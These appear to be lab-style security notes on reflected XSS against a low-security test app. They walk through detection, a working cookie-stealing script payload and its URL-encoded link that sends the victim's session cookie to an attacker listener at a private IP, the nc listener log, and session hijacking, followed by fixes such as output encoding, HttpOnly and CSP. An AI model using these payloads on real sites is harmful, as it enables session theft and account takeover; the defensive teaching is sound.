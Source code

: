Detection (reflected XSS):
```
$ http "vulnerable.com/?name=<h1>test" -b
Hello <h1>test
```
Output (response) contains the original user-input as HTML code. This example allows `<script>` tags, so JS code to be run on the behalf of the user, once the response is fully loaded in the browser.

Payload for cookie stealing:
```html
<script>window.onload=function(){window.location="http://192.168.209.146:8081?cookie="%2bdocument.cookie;}</script>
```
Where `192.168.209.146:8081` is the attacker's listener/cookie grabber (`nc -nlvp 8081`).


HTTP request (URL encoded payload - must be executed in the context of the victim's browser while authenticated):
```
http://vulnerable.com/?name=%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%3d%66%75%6e%63%74%69%6f%6e%28%29%7b%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%32%30%39%2e%31%34%36%3a%38%30%38%31%3f%63%6f%6f%6b%69%65%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%7d%3c%2f%73%63%72%69%70%74%3e
```
Authenticated user needs to click on the URL.

Sever log on attacker's end:
```
Listening on 0.0.0.0 8081
Connection received on 192.168.209.1 62754
GET /?cookie=PHPSESSID=gujal0anhtviba58ekqm4nik60;%20security=low HTTP/1.1
...
```
Attacker will take the `PHPSESSID` cookie and load it in their browser to "override" the current user session. 
Website must allow concurrent user sessions, from different `User-Agent` or WAN IP address.

Quick fixes:

- always apply encoding on the user input:
```php
$name = htmlentities($_GET["name"]);
// or
$name = urlencode($_GET["name"]);
```

- apply `HttpOnly` flag `Set-Cookie: PHPSESSID=gujal0anhtviba58ekqm4nik60; HttpOnly` so that `document.cookie` won't have access to it

- apply CSP headers to specify where JS can be loaded from and in which way (`https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP`)
  * in-line code should not be present as part of the app's DOM `<html><head></head><body><script>console.log(1);</script></body></html>`
  * load JS from trusted local/CDN files only
  * XSS prevention works only if DOM based in-line scripting is disabled
  * following XSS examples will not execute JS code
```
<img src=x onerror="alert(1)"/>
<iframe src="x" onload="alert(1)"></iframe>
<iframe src="javascript:alert(XSS)">
```
